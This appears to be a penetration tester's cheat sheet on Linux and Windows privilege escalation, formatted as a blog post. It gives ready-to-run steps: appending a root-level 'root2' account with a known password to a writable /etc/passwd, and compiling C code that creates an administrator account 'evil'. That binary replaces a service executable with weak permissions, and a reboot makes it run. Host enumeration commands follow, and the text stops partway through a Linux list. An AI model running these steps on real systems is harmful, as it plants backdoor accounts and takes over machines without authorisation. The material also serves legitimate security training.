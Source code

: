```yaml
---
layout: post
title:  "privesc - linux - general"
date:   2022-01-01
categories: linux
---
```



## writable /etc/passwd

```bash
openssl passwd evil
<password>
```

```
echo "root2:<password>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

```
Password: evil
```

## windows

```bash
whoami
net user <username>
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
ipconfig /all
route print
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell --> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

## Insecure File Permissions

- listing running services

```bash
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

- file permission

```bash
icacls "C:\Program Files\path\to\suspicious.exe"
```

kali build the exploit code

- exploit code

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```


#### windows replace the original exe with the malicious one

```
move "C:\Program Files\path\to\suspicious.exe" "C:\Program Files\path\to\suspicious_old.exe"
```

```
move adduser.exe "C:\Program Files\path\to\suspicious.exe"
```

```
dir "C:\Program Files\path\to\"
```

##### restart the service

```
net stop suspicious
System error 5 has occurred.

Access is denied.
```

Unfortunately, it seems that we do not have enough privileges to stop the suspicious service. This is expected as most services are managed by administrative users.


```bash
wmic service where caption="suspicious" get name, caption, state, startmode
```

```bash
Caption     Name     StartMode  State
suspicious  suspicious  Auto       Running
```

```bash
whoami /priv
...
SeShutdownPrivilege           Shut down the system                 Disabled
```

```bash
shutdown /r /t 0
```

## UAC



## linux

```
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
ps aux
netstat -ano
ip a
/sbin/route
ss -anp
ls -lah /etc/cron*
cat /etc/crontab
dpkg -l
find / -writable -type d 2>/dev/null
cat /etc/fstab --> mount
/bin/lsblk
lsmod --> /sbin/modinfo <filename given from lsmod>
find / -perm -u=s -type f 2>/dev/null